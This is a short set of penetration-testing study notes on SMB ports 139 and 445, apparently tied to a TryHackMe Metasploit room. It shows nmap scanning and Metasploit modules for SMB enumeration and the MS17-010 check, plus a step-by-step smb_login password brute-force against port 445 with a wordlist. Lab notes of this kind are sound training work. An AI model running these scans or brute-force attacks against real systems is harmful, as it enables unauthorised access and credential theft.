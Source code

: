 ```yaml
---
description: Server Message Block (SMB)
---
```


# 139/445 \~ SMB

## Key differences between ports 139 and 445:

* **Port 139**: Legacy, relies on **NetBIOS over TCP/IP**, primarily used for older systems and version of SMB, such as SMB 1.0 or older versions.
* **Port 445**: Used in modern systems. It supports **direct SMB over TCP/IP**, used by newer versions of SMB (e.g. SMBv2, SMBv3).

```bash
$ sudo nmap -sS -n -v <host>

PORT     STATE SERVICE
...
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
...
```

## Metasploit

```bash
msf6 > search type:auxiliary smb 
msf6 > search type:auxiliary smb scanner
```

1. `auxiliary/scanner/smb/smb_enumshares`
2. `auxiliary/scanner/smb/smb_enumusers`
3. `auxiliary/scanner/smb/smb_version`
4. `auxiliary/scanner/smb/smb_ms17_010`

### Example

Module: `scanner/smb/smb_login`, targets _**port 445**_

Password brute-force on _**port 445**_ for a single username.

```bash
msf6 > use scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > show options
...
# default
RPORT              445                      yes       The SMB service port (TCP)
...

# Set options
msf6 auxiliary(scanner/smb/smb_login) > set rhosts [remote_host]
msf6 auxiliary(scanner/smb/smb_login) > set stop_on_success true
msf6 auxiliary(scanner/smb/smb_login) > set user_as_pass true
msf6 auxiliary(scanner/smb/smb_login) > set pass_file [path_to_password_wordlist]
msf6 auxiliary(scanner/smb/smb_login) > set smbuser [username]
```



_**TryHackMe Metasploit exploitation room, Task 2:**_

{% embed url="https://tryhackme.com/r/room/metasploitexploitation" %}
